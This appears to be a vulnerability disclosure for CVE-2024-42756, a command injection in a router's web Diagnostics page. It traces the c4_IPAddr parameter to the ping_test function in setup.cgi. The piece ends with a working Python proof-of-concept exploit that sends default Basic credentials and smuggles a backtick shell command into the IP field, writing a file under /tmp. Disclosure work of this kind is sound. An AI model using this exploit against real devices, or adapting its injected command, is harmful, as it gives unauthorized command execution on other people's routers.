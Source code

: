 ## Command injection exists on the Diagnostics page of web
## ![1721830818130.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721830823860-f5b57545-c9d4-455a-9471-c041145deb90.png#averageHue=%23fbfafa&clientId=u2f508ae5-ad4e-4&from=paste&height=667&id=u6ad3a6b3&originHeight=817&originWidth=1959&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=178745&status=done&style=none&taskId=u2dc9df19-997d-4ab1-8f0f-59567da8a1d&title=&width=1599.85)Parameters discovered by capturing packets are passed as c4_IPAddr
![1721830893722.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721830898585-93b51d16-5c9b-43cd-8c62-e6760b1bfc30.png#averageHue=%23f6f5f4&clientId=u2f508ae5-ad4e-4&from=paste&height=481&id=u9a9dc098&originHeight=589&originWidth=1511&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=180889&status=done&style=none&taskId=u191977f1-3747-4a61-bd28-5b554321602&title=&width=1233.9833333333333)
## grep -r "c4_IPAddr"
## The string c4_IPAddr was found in the binary file setup.cgi
## ![1721830988983.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721830993358-8ed1a10d-12ff-4ab6-980c-67520114154f.png#averageHue=%232f0b25&clientId=u2f508ae5-ad4e-4&from=paste&height=147&id=uc384f1dc&originHeight=180&originWidth=989&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=54506&status=done&style=none&taskId=u7fd9f142-063c-4b91-9664-aa55c9febd3&title=&width=807.6833333333333)c4_IPAddr found in IDA
## ![图片.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831173391-424fccd7-17bf-4aa3-af43-c74c3ee326a7.png#averageHue=%23f6f4f2&clientId=u2f508ae5-ad4e-4&from=paste&height=81&id=u127d49b3&originHeight=99&originWidth=492&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=7500&status=done&style=none&taskId=uadf28c54-c85f-487b-8f09-f0d4a58bc1a&title=&width=401.8)![图片.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831178917-d7207407-09fe-433a-8801-17e72bd999bb.png#averageHue=%23e1b872&clientId=u2f508ae5-ad4e-4&from=paste&height=245&id=u7b48214b&originHeight=300&originWidth=1074&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=68847&status=done&style=none&taskId=ue6fadf4e-694e-480d-8a4d-bafb5175091&title=&width=877.1)Locate the ping_test function
## Found only filtered;
## ![图片.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831709526-010cc455-1465-4b99-9aaf-6c41f38ce04e.png#averageHue=%23fbf9f9&clientId=u2f508ae5-ad4e-4&from=paste&height=357&id=u048c6c59&originHeight=437&originWidth=723&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=45688&status=done&style=none&taskId=uee7d6df5-a244-4082-8537-6bba71a4186&title=&width=590.4499999999999)
## Construct exp
## ![1721831347990.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831355775-8653b8c6-35bb-40e5-a7df-b4247154883b.png#averageHue=%23faf9f9&clientId=u2f508ae5-ad4e-4&from=paste&height=865&id=u13a39b91&originHeight=1059&originWidth=945&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=135712&status=done&style=none&taskId=u53475e1f-a6b3-4cab-8158-c5002861fbb&title=&width=771.75)Description Directory nop was successfully written
## ![1721831375064.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831382760-a39f9648-4617-4181-bc1e-547f21f62775.png#averageHue=%232d0923&clientId=u2f508ae5-ad4e-4&from=paste&height=185&id=u11c37f75&originHeight=227&originWidth=670&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=29346&status=done&style=none&taskId=u701b1eff-7b45-4d37-820e-d11399feb68&title=&width=547.1666666666666)
exp
import requests

burp0_url = "[http://192.168.0.1:80/setup.cgi"](http://192.168.0.1:80/setup.cgi")
burp0_headers = {"Cache-Control": "max-age=0", "Authorization": "Basic YWRtaW46cGFzc3dvcmQ=", "Upgrade-Insecure-Requests": "1", "Origin": "http://192.168.0.1", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "[http://192.168.0.1/diag.htm&todo=cfg_init",](http://192.168.0.1/diag.htm&todo=cfg_init",) "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
burp0_data = {"IPAddr1": "192", "IPAddr2": "168", "IPAddr3": "0", "IPAddr4": "2", "ping": "Ping", "todo": "ping_test", "this_file": "diag.htm", "next_file": "diagping.htm", "c4_IPAddr": "192.168.0.2`echo 2 > /tmp/nop`"}
requests.post(burp0_url, headers=burp0_headers, data=burp0_data)

CVE-2024-42756
